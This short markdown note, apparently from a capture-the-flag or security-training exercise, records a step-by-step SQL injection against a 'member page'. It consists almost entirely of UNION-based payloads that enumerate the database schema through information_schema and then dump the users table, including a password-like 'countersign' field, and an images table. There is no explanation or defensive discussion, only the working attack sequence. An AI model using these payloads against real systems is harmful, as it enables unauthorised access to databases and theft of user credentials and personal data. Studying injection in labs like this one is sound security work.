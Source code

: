 # SQL injection in member page
#SELECT TABLE_NAME FROM information_schema.tables

```
1 OR 1=1 UNION SELECT NULL, NULL-- 
```

```
1 OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables
```

```
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

```
1 OR 1=1 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

//1 OR 1=1 UNION SELECT id, CONCAT(url, title, comment) FROM list_images

-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images